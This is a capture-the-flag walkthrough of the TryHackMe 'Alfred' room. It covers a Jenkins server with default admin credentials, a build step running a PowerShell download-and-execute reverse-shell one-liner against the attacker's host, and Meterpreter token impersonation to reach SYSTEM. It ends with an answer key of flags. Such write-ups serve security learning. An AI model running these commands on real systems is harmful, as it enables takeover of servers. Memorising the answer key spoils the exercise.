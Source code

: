 ```yaml
---
- **Title:** Alfred
- **Description: In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access.
- **IP Address:** 10.10.1.114
- **Setup:**
```bash
		export IP=10.10.1.114
```
---
```





![alfred-header.png](./Images/alfred-header.png)

# Initial Access
- Run nmap agains the IP to explore the ports and services and output to a file named 10.10.1.114-nmap-scan

```bash
	nmap -A -Pn $IP >> $IP-nmap-scan
```

![nmap-scan.png](./Images/nmap-scan.png)

- As the nmap scan shows, Jenskin is running on port 8080 of this target machine. 

![jenskin.png](./Images/jenskin.png)

Trying default credentials admin || admin, I was able to log in. Once logged, I could see that there was only 1 project named "project". Clicking the link took me to the following page.

![project-dashboard](./Images/project-dashboard.png)

- Exploring the cofiguration of the project, I saw that everytime the job is run, Windows batch commands were executed.

![build-configuration](./Images/build-configuration.png)

* Now I need to deliever a payload and get a revershell through this configuration. According to the instuctions of TryHackMe, we need to download the [Invoke-PowerShellTcp.ps1]("https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1") to our attacking machine. From the directory where the file is located, create a server:

```bash
python -m http.server 8000
```

In the "Execute Windows batach command" from Jenskin, paste the follow command:

```shell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

```

- Save the configuration. 

- On attacking machine, run a netcat listener:  

```bash 
nc -lnvp 5555
```

- On Jenskin, click "Build Now" link to start the project. Now we'll get a reverse shell:

![reverse-shell](./Images/reverse-shell.png)

Poking around the target machine, we can easily find the user flag:

![user-text-flag](./Images/user-text-flag.png)

Following instruction on TryHackMe, we can easily switch to a more stable shell.

![stable-shell](./Images/stable-shell.png)

# Privilege Escalation

- Run ```list_tokens -g```  to check which token is available

![list-tokens](./Images/list-tokens.png)

- Run ```impersonate_token "BUILTIN\Administrators"```. Then run ```
getuid``` , we get the following result:

![impersonate-tokens](./Images/impersonate-token.png)

- Running ```ps``` command, we'll learn PID of services.exe is 668. Migrate the process to elevate prilvilege:

```shell
migrate 668
```

![migrate-services](./Images/migrate-services.png)
- Now we can view root.txt

<details>
    <summary> Answer </summary>
	
-   How many ports are open? (TCP only)  <br>
		-> 3 <br>
	
-   What is the username and password for the log in panel(in the format username:password) <br>
		-> admin:admin <br>
	
- What is the user.txt flag? <br>
		-> 79007a09481963edf2e1321abd9ae2a0<br>
	
-   What is the final size of the exe payload that you generated?? <br>
		-> 73802<br>
	
- What is the output when you run the _getuid_ command?<br>
		-> NT AUTHORITY\SYSTEM<br>
	
-  Read the root.txt file at C:\Windows\System32\config <br>
		-> ��dff0f748678f280250f25a45b8046b4a<br>
	
</details>
